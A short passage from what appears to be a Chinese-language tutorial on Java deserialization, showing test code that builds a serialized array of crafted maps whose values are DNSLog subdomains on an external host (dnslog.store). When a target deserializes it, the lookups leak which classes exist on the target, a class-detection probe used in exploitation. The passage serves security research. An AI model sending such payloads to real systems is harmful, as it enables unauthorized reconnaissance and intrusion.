 ![ObjectInputStream.readArray](png/ObjectInputStream.readArray.png)

相关测试代码如下，你可以通过ArrayList、LinkedList 来测试，也可以使用 Object[] 数组：

```java
//\DeserDemo\Demo3\src\main\java\com\demo3\TestDemo3List.java

//List list = new ArrayList();
//        MyListClass list = new MyListClass(10);
//        add(list, "com.demo.Foo");
//        add(list, "com.demo.FooNotexist");
//        add(list, "com.demo.Foo2");
//        add(list, "com.demo.FooNotexist2");

        Object[] list = new Object[10];
        String clazzName = "com.demo.common.TargetDetectClass";
        list[0] = makeMap(Utils.MakeClass(clazzName), clazzName.replaceAll("\\.", "") + ".d80b043e.dnslog.store");
        clazzName = "com.demo.FooNotexist";
        list[1] = makeMap(Utils.MakeClass(clazzName), clazzName.replaceAll("\\.", "") + ".d80b043e.dnslog.store");
        clazzName = "com.demo.common.TargetDetectClass2";
        list[2] = makeMap(Utils.MakeClass(clazzName), clazzName.replaceAll("\\.", "") + ".d80b043e.dnslog.store");
        clazzName = "com.demo.FooNotexist2";
        list[3] = makeMap(Utils.MakeClass(clazzName), clazzName.replaceAll("\\.", "") + ".d80b043e.dnslog.store");

        Serialize(list, file);
```

